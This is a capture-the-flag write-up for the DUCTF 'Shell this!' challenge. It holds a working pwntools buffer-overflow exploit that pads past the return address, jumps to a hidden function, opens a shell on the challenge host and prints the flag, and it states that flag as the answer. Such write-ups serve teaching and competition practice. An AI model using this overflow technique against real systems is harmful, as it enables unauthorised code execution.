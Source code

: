 # Shell this!

Author: [roerohan](https://github.com/roerohan)

## Source

```
Author: Faith

Somebody told me that this program is vulnerable to something called remote code execution?

I'm not entirely sure what that is, but could you please figure it out for me?

nc chal.duc.tf 30002
```

## Exploit

```py
from pwn import *

elf = ELF('./shellthis')

host = 'chal.duc.tf'
port = 30002

local = False

if local:
    p = elf.process()
else:
    p = remote(host, port)

print(p.recvuntil('name: '))
p.clean()

target = p64(0x4006ca)

offset = b'a' * (0x30 + 0x8)

payload = offset + target
p.sendline(payload)

print(payload)

p.interactive()
```

```bash
[*] Switching to interactive mode
$ ls
flag.txt
shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

The flag is:

```
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```